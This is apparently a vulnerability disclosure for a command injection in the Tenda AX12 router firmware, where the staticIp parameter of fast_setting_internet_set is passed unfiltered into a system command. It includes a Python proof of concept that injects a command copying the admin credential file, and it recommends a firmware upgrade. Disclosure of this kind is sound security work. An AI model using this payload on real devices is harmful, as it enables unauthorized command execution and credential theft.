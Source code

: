 ## 漏洞描述 ##
设备：Tenda-AX12

固件版本： V22.03.01.16_CN([AX12升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/download/detail-3170.html))

漏洞类型：命令注入

攻击效果：任意命令执行

## 漏洞成因 ##
该漏洞产生的原因是提供的fast_setting_internet_set接口中，调用的函数sub_42581C内部，未对用户传入的可控参数staticIp的值进行过滤，而造成的命令注入。

sub_42581C()
![](./image/1.png)

其先获取到staticIp参数的值赋值给到v4，然后调用sprintf函数格式化输入到v5字符串，最后调用doSystemCmd_route执行命令。其过程中未对staticIp的值进行任何字符过滤处理，这意味着我们可以通过这个参数构造任意命令，最终进入到doSystemCmd_route执行。

## POC ##

命令注入的poc，实际情况中，需要先进行身份验证。

```python
import requests

url = "http://192.168.112.131/goform/fast_setting_internet_set"
cmds = ";cp /etc/config/admin /tmp/hack;"


payload = {'wanType': '1', 'staticIp': cmds}
r = requests.post(url, data=payload)
print(r.status_code)
print(r.content)
```

攻击效果如下，是将配置目录下保存着userpass的admin文件给拷贝到了tmp/hack中。
![](./image/2.png)

## 建议

建议将固件升级到最新版本，[V22.03.01.21](https://www.tenda.com.cn/download/detail-3237.html)。
